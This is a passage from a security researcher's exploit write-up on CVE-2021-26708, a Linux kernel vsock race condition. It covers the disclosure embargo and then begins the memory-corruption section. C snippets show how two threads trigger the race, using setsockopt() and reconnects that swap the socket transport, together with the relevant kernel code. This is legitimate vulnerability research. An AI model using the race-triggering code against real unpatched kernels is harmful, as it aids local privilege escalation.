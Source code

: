 This raises the question: **is this "merge ASAP" procedure compatible with the `linux-distros` mailing list?**

As a counter-example, when I reported [CVE-2017-2636][10] to `security@kernel.org`, Kees Cook and Greg organized a one-week disclosure embargo via the `linux-distros` mailing list. That allowed Linux distributions to integrate my fix into their security updates in no rush and release them simultaneously.

## Memory corruption

Now let's focus on exploiting [CVE-2021-26708][0]. I exploited the race condition in `vsock_stream_setsockopt()`. Reproducing it requires two threads. The first one calls `setsockopt()`:

```c
    setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_SIZE,
				&size, sizeof(unsigned long));
```

The second thread should change the virtual socket transport while `vsock_stream_setsockopt()` is trying to acquire the socket lock. It is performed by reconnecting to the virtual socket:

```c
    struct sockaddr_vm addr = {
        .svm_family = AF_VSOCK,
    };

    addr.svm_cid = VMADDR_CID_LOCAL;
    connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));

    addr.svm_cid = VMADDR_CID_HYPERVISOR;
    connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
```

To handle `connect()` for a virtual socket, the kernel executes `vsock_stream_connect()`, which calls `vsock_assign_transport()`. This function has some code we are interested in:

```c
    if (vsk->transport) {
        if (vsk->transport == new_transport)
            return 0;

        /* transport->release() must be called with sock lock acquired.
         * This path can only be taken during vsock_stream_connect(),
         * where we have already held the sock lock.
         * In the other cases, this function is called on a new socket
         * which is not assigned to any transport.
         */
        vsk->transport->release(vsk);
        vsock_deassign_transport(vsk);
    }
```

Note that `vsock_stream_connect()` holds the socket lock. Meanwhile, `vsock_stream_setsockopt()` in a parallel thread is trying to acquire it. Good. This is what we need for hitting the race condition.


[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://grsecurity.net/
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers